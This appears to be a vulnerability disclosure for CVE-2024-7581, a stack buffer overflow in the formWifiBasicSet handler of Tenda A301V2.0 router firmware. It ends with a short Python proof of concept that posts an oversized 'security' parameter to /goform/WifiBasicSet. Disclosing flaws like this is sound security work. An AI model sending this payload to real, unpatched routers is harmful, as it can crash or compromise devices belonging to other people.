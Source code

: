 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3328.html

## Affected version

A301V2.0 Firmware  V15.13.08.12

## Vulnerability details

In the Tenda A301V2.0 Firmware  V15.13.08.12 has a stack overflow vulnerability located in the `formWifiBasicSet` function. This function accepts the `security` parameter from a POST request. When `is_ssid0_wds_mode(0)` returns False, which means wds mode is disabled, the `security` parameter is directly copied to `param[256]`, causing a buffer overflow.

![image1](image/1.png)

![2](image/2.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.244.143"
url = "http://" + ip + "/goform/WifiBasicSet"
payload = b"a"*2000

data = {
    "security": payload,
}

response = requests.post(url, data=data)
print(response.text)
```

![demo](image/demo.png)

## CVE

CVE-2024-7581